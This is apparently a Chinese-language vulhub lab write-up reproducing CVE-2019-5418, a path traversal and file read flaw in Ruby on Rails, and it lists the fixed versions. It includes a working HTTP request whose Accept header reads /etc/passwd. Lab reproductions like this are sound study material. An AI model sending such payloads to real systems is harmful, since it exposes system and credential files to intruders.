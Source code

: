 # Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）

###### by ADummy

### 0x00利用路线

​			Burpsuite修改Accept字段--->成构造路径穿越漏洞，读取任意文件

### 0x01漏洞介绍

​			在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

##### 			影响版本

```
Rails全版本
其中修复版本
6.0.0.beta3,
5.2.2.1
5.1.6.2
5.0.7.2
4.2.11.1
```

### 0x02漏洞复现

访问`http://your-ip:3000/robots`可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![Ruby_On_Rails路径穿越与任意文件读取漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Ruby_On_Rails路径穿越与任意文件读取漏洞_1.jpg)

![Ruby_On_Rails路径穿越与任意文件读取漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Ruby_On_Rails路径穿越与任意文件读取漏洞_2.jpg)

msf模块scan

![Ruby_On_Rails路径穿越与任意文件读取漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Ruby_On_Rails路径穿越与任意文件读取漏洞_3.jpg)

